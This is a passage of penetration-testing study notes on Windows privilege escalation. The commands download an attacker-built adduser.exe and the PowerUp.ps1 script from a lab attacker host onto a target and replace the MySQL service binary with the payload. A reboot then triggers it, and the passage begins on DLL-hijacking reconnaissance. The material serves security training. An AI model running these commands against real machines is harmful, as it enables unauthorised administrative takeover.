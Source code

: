 Next, we'll cross-compile6 the code on our Kali machine with mingw-64

```bash
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
python -m http.server 80
```
```bash
iwr -uri http://192.168.48.3/adduser.exe -Outfile adduser.exe
move C:\xampp\mysql\bin\mysqld.exe mysqld.exe
move .\adduser.exe C:\xampp\mysql\bin\mysqld.exe
net stop mysql
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'mysql'}
# if Auto mean we may be able to restart the service by rebooting the machine.
whoami /priv
# look for SeShutdownPrivilege
# The Disabled state only indicates if the privilege is currently enabled for the running process.
shutdown /r /t 0
```

we can use PowerUp

```bash
iwr -uri http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
.\PowerUp.ps1
Get-ModifiableServiceFile
```

## 2.2. DLL Hijacking

Standard DLL search order on current Windows versions

1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.

Displaying information about the running service
```bash
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname

# test if we are able to create files in the directory with our current privileges.
echo "test" > 'C:\FileZilla\FileZilla FTP Client\test.txt'
type 'C:\FileZilla\FileZilla FTP Client\test.txt'
```

:::Note
We can use Process Monitor5 to display real-time information about any process, thread, file system, or registry related activities. Our goal is to identify all DLLs loaded by FileZilla as well as detect missing ones.

Unfortunately, we need administrative privileges to start Process Monitor and collect this data. However, the standard procedure in a penetration test would be to copy the service binary to a local machine. On this system, we can install the service locally and use Process Monitor with administrative privileges to list all DLL activity.
:::
